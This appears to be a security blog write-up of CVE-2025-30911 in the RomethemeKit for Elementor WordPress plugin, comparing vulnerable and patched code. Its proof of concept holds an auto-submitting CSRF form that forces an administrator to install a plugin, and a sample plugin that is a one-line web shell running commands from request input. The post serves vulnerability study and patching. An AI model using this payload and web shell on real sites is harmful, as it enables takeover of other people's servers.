

# CVE-2025-30911 Analysis & POC


<!--more-->

## CVE & Basic Info

The **Improper Control of Generation of Code ('Code Injection')** vulnerability in **Rometheme RomethemeKit For Elementor** allows **Command Injection** to occur. This issue affects **RomethemeKit For Elementor** from n/a up to version **1.5.4**.

* **CVE ID**: [CVE-2025-30911](https://www.cve.org/CVERecord?id=CVE-2025-30911)
* **Vulnerability Type**: Remote Code Execution
* **Affected Versions**: <= 1.5.4
* **Patched Versions**: 1.5.5
* **CVSS severity**: High (9.9)
* **Required Privilege**: Subscriber
* **Product**: [WordPress RTMKit Plugin](https://wordpress.org/plugins/rometheme-for-elementor/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **RTMKit**:

  * `1.5.3` – **vulnerable**
  * `1.5.5` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Cause

> [!NOTE]
> Although the vulnerability was reported as affecting up to version **1.5.4**, it was actually partially patched in that version, so I chose version **1.5.3** for the analysis.

**In the vulnerable version (v1.5.3):**

```php {title="template.php v1.5.3" data-open=true hl_lines=[21,23]}
public function install_requirements()
{
    include_once ABSPATH . 'wp-admin/includes/plugin.php';
    include_once ABSPATH . 'wp-admin/includes/file.php';
    include_once ABSPATH . 'wp-admin/includes/misc.php';
    include_once ABSPATH . 'wp-admin/includes/class-wp-upgrader.php';

    $plugin = $_POST['plugin'];
    $plugin_file = WP_PLUGIN_DIR . '/' . $plugin;
    $plugin_slug = dirname($plugin);

    if (file_exists($plugin_file)) {
        // Activate the plugin if already installed but inactive
        ob_start();
        activate_plugin($plugin);
        ob_clean();
        ob_end_clean();
        wp_send_json_success("Install and Activate Successfully");
    } else {
        ob_start();
        $plugin_download_url = "https://downloads.wordpress.org/plugin/{$plugin_slug}.latest-stable.zip"; // Adjust URL structure
        $upgrader = new \Plugin_Upgrader();
        $result = $upgrader->install($plugin_download_url);

        if (is_wp_error($result)) {
            wp_send_json_error();
        }
        $activate_result = activate_plugin($plugin);
        if (is_wp_error($activate_result)) {
            wp_send_json_error('Plugin installed but failed to activate: ' . $activate_result->get_error_message());
        }

        wp_send_json_success('Plugin installed and activated successfully.');
    }
}
```

The `install_requirements()` function allows downloading and activating a plugin based on the value of `$_POST['plugin']`:

* If the plugin is already downloaded but not activated, it will be activated:

```php
if (file_exists($plugin_file)) {
    // Activate the plugin if already installed but inactive
    ob_start();
    activate_plugin($plugin);
    ob_clean();
    ob_end_clean();
    wp_send_json_success("Install and Activate Successfully");
}
```

* If the plugin is not yet downloaded, it will be downloaded.

However, this function does not perform any user privilege validation.

In version `v1.5.4`, the developer partially fixed the issue by adding:

```php {title="template.php v1.5.4" data-open=true hl_lines=[]}
if (!current_user_can('manage_options')) {
    wp_die();
}
```

`manage_options` is a capability reserved for **Administrators**, so only Admin accounts can now call this function. This prevents normal users (**Subscriber**, **Author**, etc.) and unauthenticated users from directly exploiting the vulnerability.

However, this patch is still not sufficient. Why?

Although the function is restricted to **Administrators**, there is no **CSRF (Cross-Site Request Forgery)** protection. This means that:

> If an **Administrator** is logged into the WordPress website and visits a malicious website controlled by an attacker, that website can silently send a (POST) request to `install_requirements`. The request will be executed with **Administrator** privileges because the browser automatically includes the authenticated cookies.

In version **v1.5.5**, the vulnerability was finally and properly patched by adding a nonce verification:

```php
if (!isset($_POST['wpnonce']) ||  !wp_verify_nonce($_POST['wpnonce'], 'rtm_template_nonce')) {
    wp_send_json_error('Access Denied');
    wp_die();
}
```

By combining both protection layers:

* `current_user_can('manage_options')` → privilege check
* `wp_verify_nonce()` → CSRF protection

the vulnerability was correctly mitigated.

## Analysis

The plugin registers an AJAX action for authenticated users (`wp_ajax_`):

```php
add_action('wp_ajax_install_requirements', [$this, 'install_requirements']);
```

When accessing the endpoint `/wp-admin/admin-ajax.php` with `action=install_requirements`, the `install_requirements` callback is executed.

## Flow


graph TD
A["Administrator is logged in to the WordPress site"]
--> B["Administrator visits a malicious website controlled by the attacker"]
B --> C["Malicious page sends a forged POST request to /wp-admin/admin-ajax.php?action=install_requirements"]
C --> D["Browser automatically includes Administrator cookies"]
D --> E["WordPress treats the request as coming from an authenticated Admin"]
E --> F["install_requirements() is executed without nonce validation"]
F --> G["Untrusted $_POST['plugin'] is processed"]
G --> H["Plugin_Upgrader->install()"]
H --> I["activate_plugin()"]
I --> J["Malicious plugin is installed and activated"]


## Proof of Concept (PoC)

1. Create a website containing the payload and send it to the Administrator:

```html {title="payload" data-open=true}
<html>
  <body>
    <form action="http://localhost/wp-admin/admin-ajax.php" method="POST">
      <input type="hidden" name="action" value="install&#95;requirements" />
      <input type="hidden" name="plugin" value="malicious&#95;plugin&#47;malicious&#95;plugin&#95;dir&#46;php" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

2. When the Administrator visits the page, the plugin will be activated.

Example plugin:

```php
if (!defined('ABSPATH')) {
    exit;
}

add_action('init', function () {
    if (isset($_REQUEST['cmd'])) {
        system($_REQUEST['cmd']);
    }
});
```

3. Trigger RCE



## Conclusion

The vulnerability in **RTMKit <= 1.5.4** lies in the `install_requirements()` function, where the value of `$_POST['plugin']` is processed directly to install and activate a plugin without sufficient validation. Version **1.5.4** introduced a permission check using `current_user_can('manage_options')`, but still lacked **CSRF** protection, allowing an attacker to abuse a logged-in **Administrator** to send a hidden request and install a malicious plugin. It was only in **v1.5.5** that the addition of `wp_verify_nonce()` fully addressed the issue and prevented the risk of **RCE**.

## Key Takeaways

* Always validate both permissions and **nonces** for every AJAX endpoint.
* Never process direct user input for sensitive operations such as installing/activating plugins.
* Permission checks alone are not enough; **CSRF** protection is also required.

## References

[Remote Code Execution (RCE)](https://patchstack.com/academy/wordpress/vulnerabilities/remote-code-execution/)

[WordPress RTMKit Plugin <= 1.5.4 is vulnerable to PHP Object Injection](https://patchstack.com/database/wordpress/plugin/rometheme-for-elementor/vulnerability/wordpress-romethemekit-for-elementor-plugin-1-5-4-arbitrary-plugin-installation-activation-to-rce-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-12-03-cve-2025-30911/  

